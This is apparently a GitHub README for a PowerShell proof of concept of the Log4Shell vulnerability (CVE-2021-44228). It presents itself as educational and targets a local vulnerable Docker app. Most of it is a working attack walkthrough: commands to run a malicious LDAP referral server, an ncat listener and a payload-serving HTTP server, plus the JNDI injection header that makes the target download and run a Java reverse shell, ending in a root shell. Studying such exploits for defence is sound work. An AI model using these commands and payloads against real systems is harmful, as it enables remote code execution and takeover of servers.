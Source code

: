 # Log4PowerShell (CVE-2021-44228) Proof of Concept

A Proof-Of-Concept for the CVE-2021-44228 vulnerability written in PowerShell.

This PowerShell script starts multiple processes (netcat listener, malicious LDAP and HTTP server, and a vulnerable web app hosted from a Docker image).
For educational purposes, this script runs through the entire exploit chain, dynamically creating the Java exploit class and ultimately producing a reverse shell on the web server.
The poisoned header sent to the vulnerable web application also triggers the information disclosure aspect of the vulnerability. The variable (Java version) can be observed in the LDAP server logs.

## LOG4SHELL THREAT BRIEF

https://medium.com/@alex.fronteddu/log4shell-threat-brief-dd771e831ff9

![log4jattack](https://user-images.githubusercontent.com/6628565/147063652-47c39470-1f53-49c5-806a-0f1ffa1abb7e.png)

## Proof of Concept

The script Log4jPoC.ps1 automates the exploit locally on a Windows machine.

### Demo

https://user-images.githubusercontent.com/6628565/147061440-9e3dd81f-cbef-48a5-af93-fd36203a45e4.mp4

## Requirements

The requirement for Maven may be removed in the future if the pre-compiled LDAP server is included in the project.
For transparency I cloned the repo and built it from source.

- Docker for Desktop
- Java 8
- Maven
- Python3
- Internet connectivity (docker image pull, git clone)

## Usage

`.\Log4ShellPoC.ps1`

When prompted, enter your computers local IP. This is used to configure the listening address of the tools as well as the target address of the vulnerable web app container. If all the dependencies are met, this should be it. The script will start spinning up console windows with everything you need to carry out the attack. Keep your eye on the ncat.exe to see the reverse shell connect.

## About this script

### Dependency Check

The script will attempt to check the dependencies.
If all dependencies are met it will start building the exploit payload (Java reverse shell).

### Exploit Payload

The payload in this example is a simple java based reverse shell.
When executed by the vulnerable web server it will establish a connection to our ncat listener.
I have included a copy of openjdk version `1.8.0_41` specifically to compile the payload for maximum compatibility.

### Docker Target

The next step is to launch the Docker container:

`ghcr.io/christophetd/log4shell-vulnerable-app`

This container hosts a Spring Boot web application using `Log4j 2.14.1` running in a `Java 1.8.0_181` environment.
The Java version is important since our exploit payload cannot be compiled with a Java version higher than what is installed on the server.

This project can be found here: https://github.com/christophetd/log4shell-vulnerable-app

Thanks christophetd!

### LDAP Server

Once the server is up we have to move onto the LDAP server.
I am using marshalsec's object deserialization vulnerability project which can be found here:

https://github.com/mbechler/marshalsec

Thank you mbechler!

We really only need the LDAPRefServer.java file but ive included the entire project in this iteration.
The only modification needed is the listening port:

`(Get-Content .\java\marshalsec\src\main\java\marshalsec\jndi\LDAPRefServer.java).Replace('int port = 1389;' , "int port = $ldapPort;") | Set-Content .\java\marshalsec\src\main\java\marshalsec\jndi\LDAPRefServer.java -ErrorAction Stop`

A simple find and replace works.

Lets build the project with Maven:

`mvn clean package -DskipTests`

Next we run project and run it with some arguments:

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://$lhost:$httpFilePort/exploit/#Exploit`

The last bit configures the callback URI that will be passed to the vulnerable server when it contacts this server using the JDNI API. The LDAPRefServer.java has some string manipulation that will append `.class` to the end of Exploit.

In the end the resulting URI will look something like this:
`http://{IP}}:{PORT}}/exploit/Exploit.class`

### Netcat Listener

Once we have the malicious LDAP server up and running we move on to the netcat listener.
This is simply: `.\tools\ncat.exe -lvn {PORT}}`

Netcat will allow us to receive the TCP connection from the vulnerable server and interact with it.

### HTTP Server

Next, we need HTTP server to server up the payload we created earlier.

`python -m http.server $httpFilePort`

When the vulnerable servers follows the URI provided by the LDAP server it will download Exploit.class and execute it.
This should establish a connection with the netcat listener and give us access to the server as the user who is running the web app. In this case root.. Always run your applications as a user with the lowest permissions possible.

### Web Request

Now we have to acutally send a request to the vulnerable web server to kick everything off. In this exapmple it will be a GET request with an 'X=Api-Version' header containg the following string `${jndi:ldap://{IP}}:{PORT}}/${java:version}}`
For this example the header is doing two things.
Firstly, `${jndi:ldap://{IP}}:{PORT}}` tells the Log4j service to connect to a LDAP server.
Secondly, `/${java:version}` will cause the environment variable containing the Java version to be included in the request to the LDAP server. This can be useful for troubleshooting an payload that is not working. If the payload is compiled with a version of Java higher than what is installed on the server it will not work.

## Conclusion

At this point everything should have been spun up and you should see a shell in the netcat window.
Go ahead and type `whoami` to see the effective username of the current user. In this case root!
Notice the log messages displayed in the docker container. You should see messages indicating a connection to a remote server, the netcat listener.

Hopefully this helps clarify how this vulnerability is exploited.

## Attribution

_Christophetd - log4shell-vulnerable-app Docker Image_

https://github.com/christophetd/log4shell-vulnerable-app

_Marshalsec object deserialization vulnerability project_

https://github.com/mbechler/marshalsec
